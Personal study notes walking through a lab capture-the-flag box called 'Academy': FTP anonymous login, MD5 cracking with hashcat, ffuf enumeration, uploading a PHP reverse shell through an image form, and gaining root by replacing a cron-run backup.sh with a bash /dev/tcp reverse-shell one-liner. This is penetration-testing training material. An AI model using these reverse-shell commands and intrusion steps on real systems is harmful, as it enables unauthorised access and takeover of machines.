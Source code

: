 ftp port 21:
version vsftpd 3.0.3
allows anonymous login

ssh port 22
version OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

http port 80
version  Apache httpd 2.4.38 ((Debian))


80 - 192.168.5.5 - 16:50 14/02/2024
Default Webpage - Apache - PHP



![[Pasted image 20240214104859.png]]

- `sudo netdiscover -r 10.0.2.0/24`
- `nmap -T4 -p- -A 10.0.2.152`  
- port 80 open => try to look at http://10.0.2.152
#### FTP
- port 21 open
- There is a file         [[Notes/TCM/Capstones/Academy/nmap|Look inside nmap scan]]
=>
try to connect as anonymous 
`ftp 10.0.2.152`
`anonymous`
try to get the file -->  `get note.txt`

> [!TIP] This can be intresting:
>- we don't know the file position inside the victim machine
>- HTTP is open =>  always good to check if` http://10.0.2.152/note` exists
>- if exist => we can <span style="color:#00b050">upload</span> a malicious <span style="color:#00b050">file using FTP</span>
>- execute it
	
exit from ftp and `cat note.txt`
![[Pasted image 20240214154532.png]]
- We found a password
- Probably is an hash
- Check what type with tool [[cheet#Hash-identifier|hash-identifier]] 
- `hash-identifier
- `cd73502828457d15655bbd7a63fb0bc8`
- probably is a --> MD5 hash
	- => try to crack hash with [[cheet#hashcat|hashcat]] + [[cheet#Locate|locate]]
	- locate rockyou.txt
	- echo "type here the hash" > hash.txt
	- `hashcat -m 0 Desktop/TCM/ETH/VMe/Academy/hash.txt` `Desktop/TCM/rockyou.txt` 
	- <span style="color:#00b050">We found a password</span> -->  student
	- ![[Pasted image 20240214160424.png]]

Now we have a userid + password 
But we don't know for what it's used
=>
Let's check if it exists a web page where we can enter these credentials
=>
#### Enumerate HTTP
we can use [[cheet#dirb|dirb]] or [[cheet#ffuf|ffuf]]
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://10.0.2.152/FUZZ_VARIABLE`
=>
<span style="color:#00b050">we found an "academy" path</span>
![[Pasted image 20240214162425.png]]
- go to `http://10.0.2.152/academy `and try to login with the userid + pass
- <span style="color:#00b050">We can login </span>
- there is a form where you can upload an image
- maybe we can also <span style="color:#00b050">upload</span> other files
- for example a <span style="color:#00b050">reverse shell</span> 
- search -->  for php reverse shell
- [Save this script locally](https://github.com/pentestmonkey/php-reverse-shell)
- change the IP in the script to your ip
- use netcat for listening to the port defined inside the script
	 - nc -nvlp 1234
	 - upload the shell in the form
	 - <span style="color:#00b050">we get a shell</span>
	 - ![[Pasted image 20240214163740.png]]
		    it's not priviliged
	=>
	it's time to privilege escalation
##### Privilege escalation
we'll use [[cheet#linpeas|linpeas]] to search any potential privilege escalation
- follow all the steps inside linpeas
- <span style="color:#00b050">we'll find a password</span> -->  My_V3ryS3cur3_P4ss
	- we can cat the file where the password is stored
	- `cat /var/www/html/academy/includes/config.php`
	- ![[Pasted image 20240214171514.png]]
	- <span style="color:#00b050">we find a user grimmie for the password</span>
- try to connect via shh -->  `ssh grimmie@10.0.2.152`
- <span style="color:#00b050">we enter</span>
- we are not root
	  => we need to become root
	![[Pasted image 20240214171831.png]]

- inside there is a backup.sh
- In some ways we can find that this script is executed every minute
	- if we change it so that it executes a shell 
	     =>
	     we have finished
	=>
	- search on google -->  [bash reverse shell one liner](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- we find our bash shell -->  `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- changed the ip to the attacker ip
	- from the attacker machine -->  listen on 8080
							     `nc -nvlp 8080`
	- inside backup.sh delete all and paste --> `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- Here we are!
	- <span style="color:#00b050">We have root access</span>
	- ![[Pasted image 20240214174016.png]]


> [!INFO] 
>This worked because the backup.sh script is executed by root each minute






